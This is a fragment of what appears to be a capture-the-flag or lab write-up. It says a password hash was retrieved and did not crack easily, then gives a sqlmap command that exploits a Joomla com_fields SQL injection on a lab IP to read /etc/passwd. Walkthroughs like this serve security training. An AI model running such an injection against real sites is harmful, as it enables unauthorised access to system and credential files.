 ![pwhash](assets/markdown-img-paste-20210830063745796.png)

I retrieve one hash with this command, but dosen't easily crack.

`sqlmap -u "http://10.10.122.150/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --random-agent --file-read="/etc/passwd" list[fullordering]`

![passwd](assets/markdown-img-paste-2021083005583422.png)
